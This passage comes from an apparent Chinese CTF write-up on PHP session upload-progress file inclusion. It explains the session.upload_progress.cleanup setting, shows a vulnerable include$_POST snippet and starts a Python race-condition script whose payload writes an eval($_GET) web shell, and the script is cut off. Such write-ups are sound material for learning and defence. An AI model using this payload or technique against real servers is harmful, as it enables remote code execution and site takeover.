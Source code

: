 讲到现在有什么疑惑吗。？

它的session文件没有被清除？

::: warning
session.upload_progress.cleanup = on //表示当文件上传结束后，php将会立即清空对应session文件中的内容
:::

这个脚本并没有条件竞争功能，它的session文件在伪造的文件上传后，没有并被清空

::: tip
session文件是有生命周期的，一般是24分钟，但是他只是会过期，并不会删除，这么说可以一直利用？
:::

这一题比较特殊，通过后期getshell查看phpinfo()函数时可以看到配置项**session.upload_progress.cleanup**是关的，应该是群主改了，好大的雷，趁热打铁复现时卡死我了，才去了解这个配置项

![3](/medias/session-include/3.png)

## 条件竞争

### post表单类型

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include$_POST[1];
```

::: tip
session.upload_progress.cleanup=On # 一般都是开启的，文件上传后会清空session文件，清空后你再包含就达不到目的了
:::

通过条件竞争，在session文件没有被清空时包含并执行，直接食用或者生成小马都行

```python
import requests
import threading
import time

# 如果题目链接是https，换成http
# url = 'https://85a94ccd-c8d7-40ac-ae8f-38ce8f7febb6.challenge.ctf.show/'
url = 'http://85a94ccd-c8d7-40ac-ae8f-38ce8f7febb6.challenge.ctf.show/'
sessionid = 'ctfshow'
data = {
    # session文件内容
    'PHP_SESSION_UPLOAD_PROGRESS': '<?php file_put_contents("shell.php","<?php highlight_file(__FILE__);eval(\$_GET[1]);?>");?>',
    # session文件路径可能不同
    '1': '/tmp/sess_' + sessionid,
}

file = {
    'file': sessionid
}
```